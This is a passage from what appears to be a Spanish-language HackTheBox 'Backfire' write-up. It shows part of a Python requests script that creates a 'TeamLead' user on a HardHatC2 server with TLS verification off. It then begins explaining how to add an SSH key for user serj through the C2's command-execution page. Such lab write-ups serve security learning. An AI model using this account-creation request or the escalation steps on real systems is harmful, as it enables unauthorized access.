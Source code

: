 ```bash
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "caden64",
  "role": "TeamLead",
  "username": "caden64"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```

[![login](/assets/img/posts/backfire-hackthebox/login.png)](/assets/img/posts/backfire-hackthebox/login.png)


## Ganando acceso al usuario serj

Para poder acceder al usuario serj, debemos añadir la ssh key al usuario serj.

En la interfaz web de HardHatC2, en una de las secciones podremos ir a la ejecución de comandos.
